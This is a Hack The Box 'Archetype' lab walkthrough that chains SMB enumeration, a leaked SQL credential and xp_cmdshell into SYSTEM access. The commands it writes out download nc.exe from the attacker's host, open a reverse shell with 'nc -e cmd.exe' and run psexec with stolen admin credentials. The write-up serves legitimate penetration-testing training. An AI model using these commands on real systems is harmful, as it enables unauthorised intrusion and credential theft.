 # Hack The Box Archetype Walkthrough

## Archetype

Assign the IP address of the Archetype machine to an environment variable:  
```export IP=10.10.10.27```  

Scan the Archetype machine:  
**-sC** for a script scan using the default scripts  
**-sV** for version detection  
**-Pn** disable host discovery (we already know the host is up)  
```nmap -sC -sV -Pn $IP```

**Open Ports**
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
smb running on ports 135/139/445
SQL server running on 1433
computer name: ARCHETYPE
smb security mode:
	- account_used: guest
	- authentication_level: user
```
It looks like SMB is running on ports **135/139/445** as well as a SQL server instance running on port **1433**. Also, it looks like the nmap scan discovered that the smb security mode is using guest access.  
Let's list the available SMB shares on the target:  
```smbclient -N -L ////$IP//```  

**SMB shares**
```
    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    backups         Disk      
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
```

The backups share looks interesting, let's attempt to access the backups SMB share:  
```smbclient //$IP/backups```
```
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8256400 blocks available

```
Let's download the **prod.dtsConfig** and have a look at it:  
```smb: \> get prod.dtsConfig```
```
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1.1 KiloBytes/sec) (average 1.1 KiloBytes/sec)
```
Back on our Kali machine, let's print the contents of the file we just got:  
```cat prod.dtsConfig```

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Let's attempt to connect to the SQL server using the credentials found in the prod.dtsConfig file:  
```impacket-mssqlclient sql_svc:M3g4c0rp123@$IP -windows-auth```
```
SQL >
```

This is great for an initial foothold, but we need to do some privilege escalation because this user doesn't have administrative privileges. Because we're able to execute commands on the target machine using xp_cmdshell via the SQL connection, let's try to get netcat onto the target machine so we can initiate a reverse shell.  

Copy the nc.exe from the windows-resources folder on Kali to my home folder:  
```cp /usr/share/windows-resources/binaries/nc.exe .```

Start a python3 web server in the current folder to host the nc.exe file:  
```python3 -m http.server 80```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target machine, download the nc.exe file using xp_cmdshell, wget, and the previous mssqlclient connection. We're going to put it into the **%TEMP%** folder:  
```xp_cmdshell powershell wget http://10.10.17.159/nc.exe -OutFile %TEMP%\nc.exe -UseBasicParsing```
```
10.10.10.27 - - [27/Jun/2021 21:57:14] "GET /nc.exe HTTP/1.1" 200 -
```

Start a nc listener on my Kali machine on port **4444** to listen for a reverse shell connection:  
```sudo nc -lvnp 4444```

Change directory to **C:\Users\sql_svc\Desktop** and print the **user.txt** for the user flag:  
```cd C:\users\sql_svc\Desktop```
```more user.txt```
```
3e7b102e78218e935bf3f4951fec21a3cd
```

From the target machine, use xp_cmdshell once again to execute the nc.exe file we just put onto the target machine to connect to my Kali machine on port **4444**:  
```xp_cmdshell powershell "%TEMP%\nc.exe -nv 10.10.17.159 4444 -e cmd.exe"```
```
C:\Windows\system32>whoami
whoami
archetype\sql_svc
```

By poking around for the powershell history file, we find it in the default directory:  
```dir/s *history.txt```
```
c:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

The following details are contained within the history file:  
```more ConsoleHost_history.txt```
```
net.exe use T: \\Archetype\backups **/user:administrator MEGACORP_4dm1n!!**
```

It looks like someone is using an Administrator account to map the SMB share, and we just got some potential admin credentials! Let's try them out back on our Kali machine with impacket's psexec:  
```impacket-psexec administrator@$IP```

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fzsGgOsb.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dMzL on 10.10.10.27.....
[*] Starting service dMzL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```

Let's check what account we're current using:  
```
C:\Windows\system32>whoami
nt authority\system
```

Boom! Well done! Now we just need to find the root/system flag, it's generally in the Desktop folder for the respective user/system account:  
```
c:\Users\Administrator\Desktop>more root.txt
b91ccec3305e98240082d4474b848528
```
